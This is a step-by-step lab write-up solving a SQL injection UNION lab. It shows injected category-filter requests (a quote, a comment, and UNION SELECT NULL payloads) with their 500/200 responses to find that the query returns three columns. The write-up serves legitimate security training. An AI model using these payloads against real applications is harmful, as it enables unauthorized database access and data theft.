


 
# Lab: SQL injection UNION attack, determining the number of columns returned by the query

## Lab Description
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, enabling a `UNION` attack. The first step is to determine the exact number of columns returned by the original query by injecting a row containing only `NULL` values.

---

## Step 1 — Intercept the Base Request
Navigate to the application, select a category filter (e.g., `Tech+gifts`), capture the request in Burp Suite, and send it to Repeater.

### Example Base Request
GET /filter?category=Tech+gifts HTTP/2
Host: 0a9b00bb0495c360843c82e8006f00ab.web-security-academy.net

---

## Step 2 — Verify SQL Injection & Comment Format
A single quote (`'`) was appended to the filter value to disrupt the SQL syntax, returning a database error. An inline comment (`--`) was then appended to repair the query structure and restore successful execution.

### Results
* `Tech+gifts'` -> **500 Internal Server Error** (SQL syntax broken).
* `Tech+gifts'--` -> **200 OK** (SQL query flow successfully terminated and repaired).

### Screenshots

---

## Step 3 — Determine the Column Count using NULL Injection (Lab Solved)
By systematically appending `NULL` values to the injected `UNION SELECT` statement, the application's response was observed to identify when the column counts of both queries matched.

### Payloads and Results
* `Tech+gifts'+UNION+SELECT+NULL--` -> **500 Internal Server Error** (Column count mismatch)
* `Tech+gifts'+UNION+SELECT+NULL,NULL--` -> **500 Internal Server Error** (Column count mismatch)
* `Tech+gifts'+UNION+SELECT+NULL,NULL,NULL--` -> **200 OK** (Successful execution - Match found!)

### Result Analysis
The successful **200 OK** response confirms that the application's original query returns exactly **3 columns**.

### Screenshots

---

## Step 4 — Lab Solved

### Screenshots
